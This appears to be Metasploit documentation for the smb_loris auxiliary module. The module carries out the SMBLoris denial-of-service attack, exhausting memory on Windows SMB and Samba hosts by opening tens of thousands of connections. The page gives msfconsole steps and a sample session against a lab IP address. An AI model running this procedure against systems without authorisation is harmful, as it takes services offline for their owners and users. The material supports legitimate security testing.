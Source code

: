 ## Vulnerable Application

  This module exploits a vulnerability in the NetBIOS Session Service Header for SMB.
  Any Windows machine with SMB Exposed, or any Linux system running Samba are vulnerable.
  See [the SMBLoris page](http://smbloris.com/) for details on the vulnerability.

  The module opens over 64,000 connections to the target service, so please make sure
  your system ULIMIT is set appropriately to handle it. A single host running this module
  can theoretically consume up to 8GB of memory on the target.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Start msfconsole
  1. Do: `use auxiliary/dos/smb/smb_loris`
  1. Do: `set rhost [IP]`
  1. Do: `run`
  1. Target should allocate increasing amounts of memory.

## Scenarios

### 

```
msf auxiliary(smb_loris) > use auxiliary/dos/smb/smb_loris
msf auxiliary(smb_loris) > set RHOST 192.168.172.138
RHOST => 192.168.172.138
msf auxiliary(smb_loris) >

msf auxiliary(smb_loris) > run

[*] Starting server...
[*] 192.168.172.138:445 - 100 socket(s) open
[*] 192.168.172.138:445 - 200 socket(s) open
...
[!] 192.168.172.138:445 - At open socket limit with 4000 sockets open. Try increasing you system limits.
[*] 192.168.172.138:445 - Holding steady at 4000 socket(s) open
...
```
